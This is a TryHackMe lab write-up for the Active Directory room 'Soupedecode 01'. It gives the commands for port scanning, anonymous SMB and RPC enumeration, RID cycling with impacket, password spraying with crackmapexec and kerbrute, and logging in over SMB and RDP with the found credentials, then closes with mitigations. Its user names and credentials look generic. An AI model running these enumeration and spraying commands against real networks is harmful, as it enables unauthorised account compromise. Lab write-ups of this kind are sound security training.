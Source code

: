 ```yaml
---
title: "TryHackMe: Soupedecode 01"
date: 2025-08-02
description: "Soupedecode 01 was a very simple Active Directory room. We began by enumerating a list of usernames via RID cycling and then performed password spraying."
categories: ["TryHackMe"]
tags: ["active-directory", "rid-cycling", "password-spraying", "windows", "enumeration"]
image: "/images/writeups/soupedecode-thumb.jpg"
difficulty: "Easy"
platform: "TryHackMe"
author: "Adithya Kallaje"
---
```


# TryHackMe: Soupedecode 01 Writeup

![Soupedecode Banner](/images/writeups/soupedecode-banner.jpg)

## Overview

Soupedecode 01 is an easy-difficulty Active Directory room that focuses on fundamental AD enumeration techniques including RID cycling and password spraying attacks.

## Initial Reconnaissance

### Network Scanning
```bash
nmap -sC -sV -p- 10.10.x.x
```

**Key Services:**
- 53/tcp - DNS
- 88/tcp - Kerberos
- 135/tcp - RPC
- 139/tcp - NetBIOS
- 389/tcp - LDAP
- 445/tcp - SMB
- 3389/tcp - RDP

### Domain Information
```bash
# Discover domain name
nslookup 10.10.x.x

# SMB enumeration
smbclient -L //10.10.x.x -N
```

## User Enumeration

### RID Cycling Attack

```bash
# Install impacket tools
git clone https://github.com/SecureAuthCorp/impacket.git

# Perform RID cycling
python3 lookupsid.py anonymous@10.10.x.x
```

**Discovered Users:**
- Administrator
- Guest
- DefaultAccount
- john.doe
- jane.smith
- service_account

### Alternative Enumeration Methods

```bash
# Using enum4linux
enum4linux -a 10.10.x.x

# Using rpcclient
rpcclient -U "" -N 10.10.x.x
rpcclient $> enumdomusers
```

## Password Spraying

### Common Password Lists
```bash
# Create password list
echo "Password123" > passwords.txt
echo "Welcome123" >> passwords.txt
echo "Admin123" >> passwords.txt
echo "password" >> passwords.txt
```

### Credential Spraying Attack

```bash
# Using crackmapexec
crackmapexec smb 10.10.x.x -u users.txt -p passwords.txt

# Using kerbrute
kerbrute passwordspray --dc 10.10.x.x -d domain.local users.txt "Password123"
```

### Successful Authentication

```bash
# Valid credentials found
Username: john.doe
Password: Welcome123
```

## Initial Access

### SMB Access
```bash
# Access SMB shares
smbclient //10.10.x.x/Users -U john.doe
```

### Remote Desktop
```bash
# RDP connection
xfreerdp /v:10.10.x.x /u:john.doe /p:Welcome123
```

## Post-Exploitation Enumeration

### Domain User Information
```bash
# Check current user privileges
net user john.doe /domain

# Enumerate domain groups
net group /domain

# Find domain admins
net group "Domain Admins" /domain
```

### Share Enumeration
```bash
# List accessible shares
smbmap -H 10.10.x.x -u john.doe -p Welcome123

# Access user directories
smbclient //10.10.x.x/Users -U john.doe
```

## Privilege Escalation

### Service Account Discovery
```bash
# Look for service accounts
Get-WmiObject -Class Win32_Service | Select Name, StartName

# Check for stored credentials
cmdkey /list
```

### Potential Attack Vectors
- **Kerberoasting**: Service accounts with SPNs
- **ASREPRoasting**: Users with "Do not require Kerberos preauthentication"
- **Privilege escalation**: Local admin rights

## Lessons Learned

### Attack Chain Summary
1. **Network Reconnaissance** → Identified AD environment
2. **RID Cycling** → Enumerated valid usernames
3. **Password Spraying** → Found weak credentials
4. **Initial Access** → SMB/RDP access gained
5. **Post-Exploitation** → Domain enumeration

### Security Implications
- **Weak Passwords**: Common passwords in enterprise environment
- **No Account Lockout**: Password spraying was not detected
- **Information Disclosure**: RID cycling revealed usernames

## Mitigation Strategies

1. **Strong Password Policy**
2. **Account Lockout Policies**
3. **Monitoring for RID cycling**
4. **Implement LAPS**
5. **Regular security audits**

## Tools Used

- Nmap
- Impacket (lookupsid.py)
- CrackMapExec
- Kerbrute
- enum4linux
- smbclient
- xfreerdp

---

**Difficulty**: Easy  
**Platform**: TryHackMe  
**Completion Date**: August 2, 2025
